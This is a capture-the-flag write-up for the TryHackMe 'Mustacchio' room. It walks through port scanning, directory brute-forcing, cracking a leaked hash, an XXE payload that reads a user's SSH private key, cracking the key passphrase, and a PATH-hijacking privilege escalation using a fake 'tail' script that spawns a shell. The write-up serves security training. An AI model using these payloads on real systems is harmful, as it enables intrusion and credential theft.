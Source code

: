 # Mustacchio

**Room Link:** [https://tryhackme.com/room/mustacchio](https://tryhackme.com/room/mustacchio)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (181).png" alt=""><figcaption></figcaption></figure>





### Scan all ports

port 8765 found which is running nginx

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (183).png" alt=""><figcaption></figcaption></figure>





### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (182).png" alt=""><figcaption></figcaption></figure>

There is a users.bak file in the custom folder

<figure><img src="../../.gitbook/assets/image (185).png" alt=""><figcaption></figcaption></figure>

It's a bit messy but it appears to be a username and password hash. I put it through crackstation

<figure><img src="../../.gitbook/assets/image (186).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (187).png" alt=""><figcaption></figcaption></figure>





### TCP/8765 - HTTP

```
gobuster dir -u http://$VICTIM:8765 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (184).png" alt=""><figcaption></figcaption></figure>





**Kali**

```
Username: admin
Password: bulldog19
```



<figure><img src="../../.gitbook/assets/image (189).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (188).png" alt=""><figcaption></figcaption></figure>

### Initial Shell

In the source code there's two interesting places to look

<figure><img src="../../.gitbook/assets/image (190).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (191).png" alt=""><figcaption></figcaption></figure>

Seems like a waste but we now know the format how to submit something on the site

<figure><img src="../../.gitbook/assets/image (192).png" alt=""><figcaption></figcaption></figure>

**Input**

```
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could\u2019ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could\u2019ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```

<figure><img src="../../.gitbook/assets/image (193).png" alt=""><figcaption></figcaption></figure>

**Input**

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///home/barry/.ssh/id_rsa'>]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

<figure><img src="../../.gitbook/assets/image (194).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (195).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (196).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
python /opt/john/ssh2john.py id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
chmod 600 id_rsa
ssh -v -i id_rsa barry@$VICTIM
Password: urieljames
```

<figure><img src="../../.gitbook/assets/image (197).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

We find a program owned by root in joes folder. When we run strings on it we can see tail command is being ran but it is not using full path so we can exploit this.

**Victim**

```
cd /home/joe
ls -lah
strings live_log
```

<figure><img src="../../.gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /tmp

cat > tail << EOF
> #!/bin/bash
> /bin/bash -i
> EOF
chmod +x tail

export PATH=/tmp/:$PATH
/home/joe/live_log 
```

<figure><img src="../../.gitbook/assets/image (26) (1).png" alt=""><figcaption></figcaption></figure>



















